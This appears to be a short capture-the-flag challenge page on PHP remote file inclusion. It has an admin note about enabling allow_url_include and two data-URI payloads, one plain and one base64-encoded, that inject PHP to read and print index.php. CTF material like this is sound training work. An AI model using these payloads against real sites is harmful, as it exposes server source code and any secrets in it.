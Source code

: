# Flag Locker

## Vulnerability: Remote file inclusion

## The flag is secure. Can you break it?

## Note to server admin

* Set allow_url_include On in apache2
* allow readonly to cuurent directory.. Disable all commands..

data:text/plain,<?php%20echo%20base64_encode(file_get_contents("index.php"));%20?>

data://text/plain;base64,PD9waHANCiRob21lcGFnZSA9IGZpbGVfZ2V0X2NvbnRlbnRzKCdpbmRleC5waHAnKTsNCmVjaG8gJGhvbWVwYWdlOw0KPz4=
